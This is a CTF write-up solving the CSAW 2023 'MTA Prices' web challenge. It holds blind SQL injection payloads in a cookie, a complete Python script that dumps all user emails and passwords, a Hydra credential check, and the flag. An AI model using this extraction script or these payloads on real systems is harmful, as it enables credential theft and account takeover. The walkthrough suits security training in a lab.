

# MTA Prices (named cookie-injection in the source code)

- source code: [CSAW-CTF-2023-Quals/web/cookie-injection at main · osirislab/CSAW-CTF-2023-Quals](https://github.com/osirislab/CSAW-CTF-2023-Quals/tree/main/web/cookie-injection)

## Setup

```bash
docker build -t csaw23/mta_prices .
docker run --rm -p 5800:5800 -it csaw23/mta_prices
echo 127.0.0.1 web.csaw.io | tee -a /etc/hosts
```

## Flag

flag{cheaper_prices_in_NYC_PLZ}

## Solution

1. Leak login credentials by SQL Injection in `session=` cookie.
2. Login `emily.brown@mta.com` user and change the price.

## Research

There is Boolean based SQL Injection Vulnerability in `session=` cookie.
If `email` field value in the base64-decoded response cookie is `Error`, it's False.
Otherwise, True.

payload:

- True: `' OR 1='1`
- False: `' OR 1='2`

 

 

Implemented python script [1].
Manually checking the DB version, tables, etc.

```bash
# DB Version: MySQL 8.0.*
python3 exploit-cookie.py "' OR SUBSTR(VERSION(),1,3)='8.0"
# => True

# check to exist users table
python3 exploit-cookie.py "' OR (SELECT 'a' FROM INFORMATION_SCHEMA.TABLES WHERE table_name='users')='a"
# => True

# record size: 20
python3 exploit-cookie.py "' OR (SELECT COUNT(*) FROM users)='20"
# => True

# check to exist email and password columns (20 in decimal is space in ASCII)
python3 exploit-cookie.py "' OR ASCII(SUBSTR((SELECT email FROM users LIMIT 1,1),1,1))>'20"
python3 exploit-cookie.py "' OR ASCII(SUBSTR((SELECT password FROM users LIMIT 1,1),1,1))>'20"
# => True
```

Implemented script to get all user email and password [1].
Ran this, the got email and password will be saved in a file called `creds.txt`.

See if I can login or not with hydra:

```console
root@kali:~/ctf/CSAW-CTF-2023-Quals/web/cookie-injection# hydra -C creds.txt 'http-post-form://web.csaw.io:5800/submit:email=^USER^&password=^PASS^:Sorry, this user is does'
Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2023-09-26 18:23:09
[DATA] max 16 tasks per 1 server, overall 16 tasks, 19 login tries, ~2 tries per task
[DATA] attacking http-post-form://web.csaw.io:5800/submit:email=^USER^&password=^PASS^:Sorry, this user is does
[5800][http-post-form] host: web.csaw.io   login: emily.brown@mta.com   password: p#2r@5ml8q7v!9x$1
[5800][http-post-form] host: web.csaw.io   login: laura.miller@mta.com   password: L$2rMlT8zW4iPc
[5800][http-post-form] host: web.csaw.io   login: sarah.harris@mta.com   password: S*9rHcW2mZ4pLs
1 of 1 target successfully completed, 3 valid passwords found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2023-09-26 18:23:10
```

- Login with `emily.brown@mta.com:p#2r@5ml8q7v!9x$1`
- `Edit Details` in `Single Ride Pass`
- Input 2.75 `Change Price:` form, then Save.


 

## Exploit code

<details><summary>[1] exploit-cookie.py</summary>

```python
import requests
import sys
import base64
import json

import concurrent.futures

s = requests.Session()
# s.proxies = {"http": "http://127.0.0.1:8080"}

possible = "0123456789abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ!\"#$%&'()*+,-./:;<=>?@[\\]^_`{|}~"


def send_request(trackingID: str) -> requests.Response:
    headers = {"Cookie": f"trackingID={trackingID};"}
    resp = s.get("http://web.csaw.io:5800/", headers=headers)

    return resp


def parse_session_cookie(session: str) -> str:
    try:
        session = base64.b64decode(session.split(".")[0] + "=" * (-len(session) % 4))
        email = json.loads(session)["email"]
        return email
    except Exception as e:
        print("Error occurs" + e)


def judge(resp: requests.Response) -> bool:
    email = parse_session_cookie(resp.cookies.get("session"))

    if email == "Error":
        return False
    else:
        return True


def get_credential(record_num: int) -> list[dict]:
    credential = {}
    for column in ["email", "password"]:
        length = 0
        for i_len in range(40):
            payload = f"' OR (SELECT LENGTH({column}) FROM users LIMIT {record_num},1)='{i_len}"
            resp = send_request(payload)
            if judge(resp):
                length = i_len
                break

        value = ""
        for i_len in range(1, length + 1):
            for c in possible:
                c_ascii = ord(c)
                # print(f"{column}: {value+c}", end="\r", flush=True)
                payload = f"' OR ASCII(MID((SELECT {column} FROM users LIMIT {record_num},1),{i_len},1))='{c_ascii}"
                resp = send_request(payload)
                if judge(resp):
                    value += c
                    break

        assert length == len(value)
        credential[column] = value

    return credential


def main():
    if sys.argv[1] == "get_credentials":
        credentials = []
        with concurrent.futures.ThreadPoolExecutor(max_workers=10) as executor:
            futures = [
                executor.submit(get_credential, record_num)
                for record_num in range(1, 20)
            ]

            for future in concurrent.futures.as_completed(futures):
                credentials.append(future.result())

        print(credentials)
        with open(f"creds.txt", "w") as f:
            for c in credentials:
                f.write(f"{c['email']}:{c['password']}\n")

    else:
        trackingID = sys.argv[1]
        resp = send_request(trackingID)
        print(judge(resp))


if __name__ == "__main__":
    main()
```

</details>

## References

- [What is Blind SQL Injection? Tutorial & Examples \| Web Security Academy](https://portswigger.net/web-security/sql-injection/blind)
- [concurrent.futures — Launching parallel tasks — Python 3.11.5 documentation](https://docs.python.org/3/library/concurrent.futures.html#threadpoolexecutor-example)
